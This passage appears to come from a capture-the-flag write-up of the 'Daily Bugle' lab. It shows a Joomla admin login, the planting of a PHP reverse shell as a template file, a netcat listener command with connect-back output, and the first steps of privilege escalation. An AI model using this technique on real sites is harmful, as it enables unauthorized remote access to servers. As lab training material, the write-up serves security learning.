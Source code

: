 We're on a roll now. John the Ripper was able to crack the Blowfish hash and give us the adminstrators' cleartext password.


## Foothold
### Joomla Administration Panel
![joomla-admin](/images/daily-bugle-joomla-admin.PNG)

Let's log-in to the Joomla admin panel (located at `/administrator`) and see what we can find.


![joomla-new-file](/images/daily-bugle-joomla-new-file.PNG)

Luckily for us, obtaining RCE via reverse shell is as easy in Joomla as it is in WordPRess. We can simply create a new file called `shell.php` that contains [pentestmonkey's reverse php shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and upload it to the CMS. This can be done through the `Extensions` page, under `Templates -> Templates`, and selecting `New File` under the `Prostar` theme.

After setting up a netcat listener, we can then use our browser to execute the payload for a reverse shell. The uploaded `.php` file is accessible via the following directory:

`http://<target-ip>/templates/protostar/shell.php`
```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.6.19.171] from (UNKNOWN) [<target-ip>] 42522
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 23:51:32 up 13 min,  0 users,  load average: 0.00, 0.03, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache
sh-4.2$ 

```

## Privilege Escalation 

Looking around, we first inspect the server's home directories. There's actually only one this time, belonging to `j------n`. Unfortunately we don't have any easy way of accessing the contents (yet). 

Next, we check out the server's web server directory (`/var/html/www`) as the `apache` user.

```
sh-4.2$ cd /var/www/html 
cd /var/www/html
sh-4.2$ ls
ls
LICENSE.txt
README.txt
administrator
bin
cache
cli
components
configuration.php
htaccess.txt
images
includes
index.php
language
```